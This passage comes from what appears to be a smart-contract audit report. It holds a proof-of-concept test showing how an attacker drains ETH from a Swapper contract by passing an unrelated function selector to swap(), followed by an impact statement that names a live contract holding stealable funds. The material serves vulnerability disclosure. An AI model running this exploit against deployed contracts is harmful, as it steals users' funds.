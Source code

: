 ```javascript

    uint256 balanceBeforeAttack = address(swapper).balance;
    console2.log("Swapper Balance: %d, blackhat balance", balanceBeforeAttack, exa.balanceOf(blackhat));

    
    (bool success, bytes memory data) = address(deployment("SocketGateway")).call(
            abi.encodeWithSignature("routesCount()")
        );
    
    uint256 routesCount = abi.decode(data, (uint256));

    // The attack consist that instead of calling the swap, the attacker can call any method that return a uint256 
    // less that the available ETH in the Swapper contract 
    vm.prank(blackhat);
    swapper.swap(
      op,
      amount,
      hex"fd326921", //abi.encode of SocketGateway::routesCount
      0,
      0
    );

    uint256 balanceAfterAttack = address(swapper).balance;
    console2.log("Swapper after attack Balance: %d blackhat balance", balanceAfterAttack, exa.balanceOf(blackhat));

    assertEq(address(swapper).balance, initialValue - routesCount, "Swapper ETH should be what the vvictim send minus stolen");
    assertGt(exa.balanceOf(blackhat), 0, "Blackhat should receive EXA in exchange for the eth of swapper");
  }


```


## Impact

Loss of funds. Attacker can steal the ETH balance of the Swapper contract that is incremented when users erroneously send ETH to it because `Swapper::receive` is without validation.
At the moment 0.001922998074009663 ether can be stolen and Swaper seems to be in [production](https://optimistic.etherscan.io/address/0x0E7eb3fEEAe852126DEc868505961a0a43823b6B)

## Code Snippet

https://github.com/sherlock-audit/2024-04-interest-rate-model-nfmelendez/blob/main/protocol/contracts/periphery/Swapper.sol#L76

https://github.com/sherlock-audit/2024-04-interest-rate-model-nfmelendez/blob/main/protocol/contracts/periphery/Swapper.sol#L135
